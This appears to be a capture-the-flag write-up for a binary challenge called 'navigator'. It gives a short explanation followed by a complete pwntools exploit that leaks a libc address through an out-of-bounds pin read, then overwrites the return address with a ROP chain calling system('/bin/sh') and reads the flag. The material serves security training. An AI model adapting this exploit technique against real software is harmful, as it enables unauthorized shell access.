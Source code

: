 We can leak any glibc address from stack using `viewPin` function and then calculate the address of `libc` base. Then we can call `system('/bin/sh')` using ROP chain by exploiting `setPin`.

#### exploit.py
```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'x86_64'

target = './navigator'
target_elf = ELF(target)
# libc = ELF('./libc.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# io = process(target)
# io = gdb.debug(target, gdbscript='''
# b *main+250
# continue
# ''')
io = remote('chal.competitivecyber.club', 8887)

# setPin to bring some glibc function addresses to stack
info(io.recvrepeat(1))
io.sendline(b'1')
io.sendline(b'5')
io.sendline(b'A')

# viewPin can leak one byte at a time. Leak 8 bytes from stack offset -129 (calcuated from gdb)
val = bytearray()
for i in range(8):
    info(io.recvrepeat(1))
    io.sendline(b'2')
    io.sendline(b'-' + str(129 + i).encode())
    info(io.recvuntil(b'Pin:'))
    io.recvline()
    val += io.recvline().strip()

libc.address = int.from_bytes(val, 'big') - 276052
info(f'libc.address: {hex(libc.address)}')

# ROP chain to call system('/bin/sh')
rop = ROP([libc])
rop.raw(rop.find_gadget(['ret'])) # padding for stack 16-byte alignment
rop.system(next(libc.search(b'/bin/sh\x00')))
info(rop.dump())
rop_chain = rop.chain()

# setPin to write ROP chain to return address at stack offset 344 (calculated from gdb)
i = 0
for p in bytearray(rop_chain):
    info(io.recvrepeat(1))
    io.sendline(b'1')
    io.sendline(str(344 + i).encode())
    i = i + 1
    io.sendline(bytes([p]))

# quit menu to trigger ROP chain
io.sendline(b'3')

info(io.recvrepeat(1))
io.sendline(b'cat flag.txt')
info(io.recvrepeat(1))
```